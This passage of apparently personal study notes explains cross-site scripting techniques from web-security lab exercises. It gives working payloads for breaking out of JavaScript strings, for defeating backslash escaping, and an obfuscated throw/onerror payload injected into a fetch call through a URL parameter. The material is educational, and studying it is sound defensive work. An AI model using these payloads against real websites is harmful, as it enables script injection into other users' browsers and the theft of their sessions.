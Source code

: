 The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script being parsed and executed in the normal way.


2) **Breaking out of JavaScript String**
Same as above
Payloads :-
```XSS
'-alert(document.domain)-' 
			OR
';alert(document.domain)//
```

Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash.

For example, suppose that the input:
`';alert(document.domain)//`

gets converted to:
`\';alert(document.domain)//`

You can now use the alternative payload:
`\';alert(document.domain)//`

which gets converted to:
`\\';alert(document.domain)//`


3) **XSS Directly from URL**
Backend Code :-
```js
[javascript:fetch('/analytics', {method:'post',body:'/post?postId=1'}).finally(_ => window.location = '/')](about:blank)
```

Payload :-
```copy
https://YOUR-LAB-ID.web-security-academy.net/post?postId=1&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

- **&** : Seperates Two Parameters
- **'}**: breaks out of body:'/post?postId=1'}. The code should now look like `fetch('/analytics', {method:'post',body:'/post?postId=1&'}'}).finally(_ => window.location = '/')`
- **,x=x=>{throw//onerror=alert,1337},toString=x,window+'',** is a fancy way to call `alert(1337)`. It basically overwrites the `toString` method and triggers it. `,toString=alert(1337),window+'',` doesn't work, since `(` and `)` are blocked. The `,` separation is important to not break the JavaScript.
-   **{x:'** : is supplied to not break the JavaScript.

In the end the fetch call looks like this:
```js
fetch('/analytics', {method:'post',body:'/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')
```

